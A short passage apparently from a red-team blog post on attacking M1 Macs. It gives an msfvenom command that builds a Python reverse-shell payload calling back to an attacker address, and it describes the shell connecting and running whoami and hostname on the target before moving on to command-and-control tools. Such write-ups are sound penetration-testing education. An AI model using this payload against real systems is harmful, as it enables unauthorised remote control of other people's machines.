 ```
msfvenom -p python/shell_reverse_tcp LHOST=10.0.1.189 LPORT=443
```   

Once executed on the target Mac via Python in the top Terminal window, we see the shell calling back to the attacker without issue and allows us to execute another uname, whoami, and hostname commands as expected.  But this only gives us basic command execution, so let’s crank up the complexity and try out some of the command-and-control (C2) tooling available for macOS engagements.   

<img src="/blogs/4_m1_macs/blog_2_python_shell_callback.png" alt="python_reverse_shell" width="600"/>   

